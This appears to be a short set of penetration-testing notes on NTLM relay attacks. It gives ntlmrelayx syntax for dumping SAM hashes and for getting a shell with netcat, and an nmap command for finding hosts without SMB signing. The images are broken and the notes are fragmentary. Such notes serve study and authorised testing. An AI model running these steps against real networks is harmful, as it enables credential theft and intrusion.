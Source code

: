 **NTLMrelayx**

relays captured hash hash
would capture SAM hashes (equivalent to shadow in linux)

syntax: 
```
ntlmrelayx.py -tf <target-host.txt> -smb2support
```

![file:///tmp/.HZGD42/1.png](file:///tmp/.HZGD42/1.png)

<h4>gaining shell</h4>
**gaining shell thru ntlmrelayx**

syntax: 
```
ntlmrelayx.py -tf <target-host.txt> -smb2support
```
open netcat with indicated port

![file:///tmp/.HZGD42/1.png](file:///tmp/.HZGD42/1.png)

![file:///tmp/.HZGD42/2.png](file:///tmp/.HZGD42/2.png)


<h3>finding SMB Signing on or off</h4>

nmap
(ip must be an entire network)
```
nmap --script=smb2-security-mode.nse -p445 192.168.50.0/24

```

![file:///tmp/.HZGD42/1.png](file:///tmp/.HZGD42/1.png)

we can relay on hosts that does not require these
save these hosts on DIFFERENT text files

